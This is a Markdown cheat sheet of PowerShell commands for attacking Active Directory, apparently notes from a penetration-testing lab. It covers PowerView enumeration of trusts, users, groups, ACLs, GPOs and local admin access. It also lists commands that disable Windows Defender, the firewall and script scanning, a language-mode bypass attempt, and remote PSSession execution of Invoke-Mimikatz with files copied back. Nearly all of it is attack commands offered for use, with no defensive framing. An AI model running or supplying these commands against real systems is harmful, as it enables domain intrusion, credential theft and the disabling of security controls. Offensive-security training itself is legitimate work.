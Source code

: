 # Active Directory

> Metasploit 4 Exploitation, Empire 4 Post-Exploitation

### All Domain and Forest Trusts

```
Get-NetForestDomain -Verbose
Get-NetDomainTrust
Get-NetForestDomain -Verbose | Get-NetDomainTrust | ?{$_.TrustType -eq 'External'}
Get-NetForestDomain -Forest ab.local -Verbose | Get-NetDomainTrust
Get-NetForest
```

### Basic Enum (Powershell)

```
Get-NetUser | select Name
Get-NetGroup | select Name
Get-NetComputer | select Name
Get-NetGroupMember "Domain Admins"
Invoke-ShareFinder
Get-ObjectAcl -SamAccountName "Domain Admins"
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs
Get-NetOU select | name
Get-NetDomainTrust
Get-NetForestDomain
Get-NetForestTrust
Get-NetComputer -Domain domain_showed.local | select name
Find-LocalAdminAccess
Invoke-UserHunter
```

### Defender

```
Set-MpPreference -DisableRealtimeMonitoring $true
```

or 

```
Set-MpPreference -DisableIOAVProtection $true
```

or

```
sc stop WinDefend
```

```
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force
```

or

```
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend

can add

-DisableRea $true
```

### Firewall

```
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

### Applocker

```
Get-AppLockerPolicy -Xml -Local
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleColletions
```

### PSSession

**make a new session**

```
$sess = New-PSSession -ComputerName xxx.local
```

**run commands**

```
Invoke-Command -ScriptBlock {dir} -Session $sess
```

**run scripts**

```
Invoke-Command -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true} -Session $sess
Invoke-Command -FilePath "C:\Invoke-Mimikatz.ps1" -session $sess
```

**join session**

```
Enter-PSSession $sess
```


**copy files to session**
```
Copy-Item -Path C:\flag.txt -Destination 'C:\Users\Public\Music\flag.txt' -FromSession $sess
```


### Powershell Language Mode

```
$ExecutionContext.SessionState.LanguageMode
powershell -version 2
$ExecutionContext.SessionState.LanguageMode = "FullLanguage"
```

### PowerView Enumeration

```
Get-NetUser
Get-NetGroup | select Name
Get-NetComputer | select Name
Get-NetGroupMember "Domain Admins"
Get-NetGroup "Enterprise Admins" -Domain domain.com

Invoke-ShareFinder
```

### ACL Enumeration

```
Get-ObjectAcl -SamAccountName "Domain Admins" -Verbose
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference -match "xxxx"}
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference -match "RPDUsers"}
Invoke-ACLScanner | Where-Object {$_.IdentityReference –eq [System.Security.Principal.WindowsIdentity]::GetCurrent().Name}
Invoke-ACLScanner | Where-Object {$_.IdentityReferenceName –eq 'MAQUINA_QUE_QUERO_VER$'}
Invoke-ACLScanner -ResolveGUIDs | Where-Object {$_.ActiveDirectoryRights -eq 'WriteProperty'}
Invoke-ACLScanner -ResolveGUIDs | select IdentityReferenceName, ObjectDN, ActiveDirectoryRights | Where-Object {$_.ActiveDirectoryRights -eq 'WriteProperty'}
```

### Misc Enum

**OUs Enumeration**

```
Get-NetOU | select name
```

**GPO Enumeration**

```
(Get-NetOU StudentMachines).gplink
Get-NetGPO -ADSpath 'LDAP://cn={B822494A-DD6A-4E96-A2BB-944E397208A1},cn=policies,cn=system,DC=xxxxx,DC=xxxx,DC=local'
```

### User Hunting Enum

```
Find-LocalAdminAccess -Verbose
Invoke-UserHunter -Verbose
```

### SID Enum

```
ab.cd.local - Get-DomainSID
cd.local - Get-DomainSID -Domain cd.local
```